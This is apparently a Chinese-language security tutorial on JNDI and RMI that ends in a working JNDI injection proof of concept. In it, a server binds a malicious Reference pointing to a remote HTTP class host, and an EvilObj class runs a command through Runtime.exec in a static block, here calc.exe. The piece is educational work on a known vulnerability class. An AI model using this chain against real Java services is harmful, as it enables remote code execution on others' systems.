



## JNDI基础

### JNDI概念

RMI就是Remote Method Invocation远程方法调用，Java Remote Method Protocol是一个Java中实现远程方法调用使用的协议

JNDI就是Java Naming and Directory Interface，本质上是一组API接口，可以操作目录服务和命名服务的接口


#### 命名服务

命名服务是一种键值对绑定，类似RMI就是典型的命名服务，通过特定的键名锁定检索键值

#### 目录服务

目录服务是命名服务的拓展服务，通过对象属性来匹配对象，比如通过年级——专业——姓名这种类似目录的形式匹配某个人的属性，与命名服务本质一样，只不过命名服务是单键值的目录服务


JNDI是对访问目录服务的逻辑再封装，其中LDAP用目录式进行匹配，JNDI传递键foo，RMI服务端反馈一个对象，LDAP传过去多个键值对

### demo

JNDI提供了绑定了查找的方法，分别是bind绑定和lookup查找

首先实现接口，并创建一个类实现这个接口

```java
import java.rmi.Remote;
import java.rmi.RemoteException;

public interface IHello extends Remote {
    public String sayHello(String name) throws RemoteException;
}

import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;

public class IHelloImpl extends UnicastRemoteObject implements IHello {
    protected IHelloImpl() throws RemoteException{
        super();
    }
    @Override
    public String sayHello(String name) throws RemoteException{
        return "Hello, " + name;
    }
}
```

然后简单创建远程对象，实现绑定和调用

```java
import javax.naming.Context;
import javax.naming.InitialContext;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.Properties;

public class Demo {
    public static void main(String[] args) throws Exception{
        // 配置JNDI的url和端口
        Properties env = new Properties();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        env.put(Context.PROVIDER_URL, "rmi://localhost:1099");

        // 创建初始环境
        Context ctx = new InitialContext(env);

        // 创建rmi映射表
        Registry registry = LocateRegistry.createRegistry(1099);

        // 创建对象
        IHello hello = new IHelloImpl();

        // 绑定对象到注册表
        registry.bind("hello", hello);

        // jndi 获取远程对象
        IHello rhello = (IHello) ctx.lookup("rmi://localhost:1099/hello");

        // 调用远程对象方法
        System.out.println(rhello.sayHello("bcyx"));
    }
}
```

简单demo将服务端和客户端写到一起了，但是整体流程相同

其中Context.PROVIDER_URL指定了去哪里加载本地没有的类

### JNDI动态协议转换

当我们调用lookup方法时，如果lookup方法和上面的demo中一样是一个地址，则客户端回去对应的url去加载远程对象，而不去Context.PROVIDER_URL设定的地址去加载对象，因此当可控lookup参数的时候，可以提供恶意url地址控制受害者加载指定的类(但是不能单凭如此完成攻击，受害者本地主机不含有class文件，调用不了方法)

跟踪一下lookup函数，后面会调用getTargetContext函数

而getTargetContext执行在前面，因此如果lookup中存在地址，则会后覆盖，即优先考虑lookup的参数



### JNDI Naming Reference

Reference类表示对存在于命名/目录系统意外的对象的引用，如果远程获取RMI服务器上的对象为Reference类或者其子类，则客户端获取远程对象时，可以从其他服务器上加载class来实现实例化

Java为了实现将Object对象存储在Naming或Directory服务下，提供了Naming Reference功能，对象通过绑定Reference类存储在RMI、LDAP等命名和目录系统下

使用Reference时，直接将对象传入构造方法中，被调用的时被触发，几个关键属性：

1. className：远程加载时所使用的类名
2. classFactory：加载的class中需要实例化类的名称
3. classFactoryLocation：远程加载类的地址，提供classes的地址可以为http/file/ftp

如果希望把一个对象绑定到rmi注册表上，则需要继承extendsUnicastRemoteObject，但是Reference并没有继承，需要封装一下，使用ReferenceWrapper包裹一下Reference实例对象，然后绑定到rmi注册表

```java
//param: 远程加载所使用的类名 要加载的类的完整类名 远程class文件存放地址
Reference refObj = new Reference("refClassName", "insClassName", "xxxx:6666/");
ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
registy.bind("refObj", refObjWrapper);
```

当客户端通过loopup("refObj")获取远程对象的时候，获取的是Reference的存根，本地如果不存在refClassName，则取指定url xxxx:6666/动态加载，并且调用insClassName中的无参构造函数（可以在无参构造函数中写恶意代码），也可以使用static代码块，static代码块的代码在class文件被加载过后立即执行一次

### JNDI注入

JNDI注入的本质就是将恶意的Reference类绑定到RMI注册表上，并指向远程恶意的class文件，当用户的客户端lookup()或Reference类的构造方法可控时，会导致RMI绑定恶意类，从而加载恶意class，造成远程代码执行。

利用条件：

1. 客户端lookup方法可控
2. 服务端使用Reference时，classFactoryLocation可控

```java
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class Client {
    public static void main(String[] args) throws NamingException {
        Context context = new InitialContext();
        context.lookup("rmi://localhost:1099/evil");
    }
}
```

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        Registry registry = LocateRegistry.createRegistry(1099); // 绑定注册表端口
        String url = "http://192.168.2.139:6666/"; // 加载恶意类的远程地址
        System.out.println("create registry in 1099");
        Reference reference = new Reference("EvilObj", "EvilObj", url); // 调用Reference类并控制url为远程地址
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference); // 封装
        registry.bind("evil", referenceWrapper);
    }
}
```

```java
import javax.lang.model.element.Name;
import javax.naming.Context;
import java.io.BufferedInputStream;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.util.HashMap;

public class EvilObj {
    public static void exec(String cmd) throws IOException{
        String s = "";
        BufferedInputStream bufferedInputStream = new BufferedInputStream(Runtime.getRuntime().exec(cmd).getInputStream());
        BufferedReader inBr =new BufferedReader(new InputStreamReader(bufferedInputStream));
        String lineStr;
        while ((lineStr = inBr.readLine())!=null){
            s += lineStr + '\n';
        }
        inBr.close();
        inBr.close();
    }
    public Object getObjectInstance(Object obj, Name name, Context context, HashMap<?, ?> environment) throws Exception{
        return null;
    }
    // 利用static执行恶意代码
    static {
        try {
            exec("calc.exe");
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

首先在服务器端运行python HTTPServer，设置对应端口，并在同目录下放置对应的class，然后分别启动server和client，client报错并弹出cmd



